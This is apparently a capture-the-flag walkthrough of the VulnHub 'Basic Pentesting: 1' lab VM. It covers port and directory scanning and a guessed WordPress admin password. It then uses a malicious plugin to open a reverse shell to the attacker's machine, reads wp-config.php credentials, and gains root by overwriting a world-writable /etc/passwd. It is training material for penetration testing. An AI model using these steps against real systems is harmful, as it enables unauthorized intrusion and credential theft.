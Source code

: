 # Basic Pentesting: 1
[VulnHub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)  
By Josiah Pierce  

* After the victim VM has been booted up, we are greeted with a login page that requests for the password of user marlinspike.
* The IP address of the victim VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the login page, which is `192.168.110.135`. Thus, no nmap scans are needed.
* From our Kali VM, run `nmap -sS 192.168.110.135`.
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). The scan result is loaded instantly after the command is executed - it is likely that the result was cached.
* We visit 192.168.110.135 and find a web server running. The page says "It works! This is the default web page for this server. The web server software is running but no content has been added, yet."
* Note: Viewing the page source reveals no additional information.
* Note: Some common files and pages which we tried such as /robots.txt, /admin, /login.php are invalid pages as well.
* Though the page said that "no content has been added yet", we will still run our tools to verify if this is really the case: run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put `http://192.168.110.135` into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in /usr/share/dirbuster/wordlists. We will use `directory-list-lowercase-2.3-small.txt` for a start. We will also use `30 threads`.
* While waiting for dirbuster to do its job, we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-content`, `wp-includes`, etc.
* With 192.168.110.135/secret, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there was no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`. A very likely reason that the page was loading slowly is that the browser was trying to resolve vtcsec, but was unable to do so eventually.
* Next, open our Hosts file in Kali: `sudo nano /etc/hosts` and add in 2 entries: `192.168.110.135 vtcsec` and `192.168.110.135 vtcsec.com`. Save the file once done. What this means is that the IP address of vtcsec is determined by us to be 192.168.110.135, and any  accesses to vtcsec will access 192.168.110.135, instead of trying to find out its IP address from a DNS server.
* Note: The vtcsec.com mapping is added just in case there might be a case where there is a `.com` domain extension for one of the hyperlinks in the WordPress page, though we have yet to see one so far.
* Reload `192.168.110.135/secret` and volia, we see that the page has been properly loaded. This is because the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* Next, we attempt a quick guess with the password `admin` for the admin account, and access is granted. No kind of bruteforcing is required here.
* Head to the `Plugins` page and install `malicious-wordpress-plugin` by `wetw0rk` [(GitHub link)](https://github.com/wetw0rk/malicious-wordpress-plugin). Once it is installed on the WordPress site, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by opening the Git repository from our terminal, and execute `python wordpwn.py 192.168.110.132 4000`. The IP address in the parameter is that of the Kali machine.
* The payload is then generated in a .zip file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (`GotEm`) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only commented codes in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval functions.
* Next, we head to `vtcsec/secret/wp-contet/plugins/malicious/wetw0rk_maybe.php`.
* Heading back to our Kali terminal, we see that a session has been opened, and enter `shell`. Executing `whoami`, we see that we are www-data. We have now successfully logged into the victim VM.
* From the reverse shell which we have gotten, we can go up a few levels of directory to the one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php /root`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` [(GitHub link)](https://github.com/pentestmonkey/unix-privesc-check) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems".
* From our reverse shell, cd to `/var/www/html`, which hosts the secret page. We will now upload the tool to the victim VM: `upload /root/unix-privesc-check`.
* Give executable permissions to the script via chmod, and then `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to the output text file. Next, download output.txt to /root.
* Search for the string "WARNING" output.txt and we see that one of the findings is that `/etc/passwd` can be written by anyone. Download the /etc/passwd file to /root.
* The first line of /etc/passwd is `root:x:0:0:root:/root:/bin/bash`. We see an `x`, which is a holding place for root's "encrypted password". Traditionally, this field actually stored the user's encrypted password. Modern Unix systems store encrypted passwords in a separate file (the shadow password file) that can be accessed only by privileged users.
* However, we can overwrite the `x` with a hash of a known password.
* Run `openssl passwd -1`, and enter a simple password (e.g. `pass`). `openssl passwd` computes the hash of our password typed at run-time in this case. Replace the `x` with our hash value, save the file, and upload the file back to the victim VM.
* Note: `-1` means the use of MD5 based BSD password algorithm 1.
* Execute `su root -l`, but there is an error stating that su must be run from a terminal. Execute `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn a proper shell.
* Note: `-l` means `--login`, i.e. to start the shell as a login shell with an environment similar to a real login.
* Enter our password created above (e.g. `pass`), and we have got root access!
